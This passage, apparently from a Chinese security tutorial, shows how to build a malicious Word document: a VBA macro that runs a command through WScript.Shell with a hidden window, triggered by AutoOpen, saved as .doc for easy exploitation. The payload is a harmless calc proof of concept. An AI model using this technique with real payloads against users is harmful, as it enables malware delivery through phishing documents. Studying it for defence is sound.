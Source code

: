默认代码是由函数 Sub MacroAttack() 组成，End Sub 是结尾，单引号是注释。更多语法见 [Visual Basic conceptual topics](https://learn.microsoft.com/en-us/office/vba/language/reference/user-interface-help/visual-basic-conceptual-topics)。

如果想用户打开文档就自动执行宏，可以使用 `AutoOpen()`，打开文档后包含在内的表达式都会执行。至于说先定义 `AutoOpen()` 在里面调 `MacroAttack` 最后再定义 `MacroAttack` 会不会出现找不到这个函数，这个不用担心，都可以执行。

```bash
Sub MacroAttack()
  ' 定义变量 payload，类型为 String
    Dim payload As String

  ' 赋值字符串 calc
    payload = "calc"

  ' 将 payload 变量字符串作为命令运行
    CreateObject("Wscript.Shell").Run payload, 0
End Sub


Sub AutoOpen()
  MacroAttack
End Sub
```

编写完宏可以在代码编辑器中“文件 -> 保存”，或者直接在文档中保存文件都可以，文件后缀选择 doc、docm、dotm 其中之一（也可以提前创建好文件再写宏）。docm、dotm 在 Windows 11 默认找不到应用打开，不利于利用，最好选 doc 这样默认情况使用 Word 打开会很方便。

打开文档后会提示安全警告。

![安全警告 - 宏已被禁用.png](assets/1708583825-c040b1ba0dcda38358c98aa091a7afee.png)

点击“启用内容”，宏 `AutoOpen()` 会被执行。

![宏执行过程.gif](assets/1708583825-3881e65d72186e1e2bb3af8b354c1663.gif)
